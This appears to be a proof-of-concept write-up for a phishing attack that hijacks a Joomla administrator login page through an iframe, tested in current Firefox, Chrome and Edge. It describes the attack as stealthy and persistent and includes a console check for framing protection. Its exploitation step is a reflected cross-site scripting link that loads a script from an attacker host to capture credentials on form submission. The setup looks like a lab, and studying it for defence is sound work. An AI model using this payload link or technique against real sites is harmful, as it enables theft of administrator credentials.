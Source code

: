 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.19

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.19/administrator/";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginJoomla.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

![Image](screenshots/Joomla_-_iframe_login_-_1-1.png)
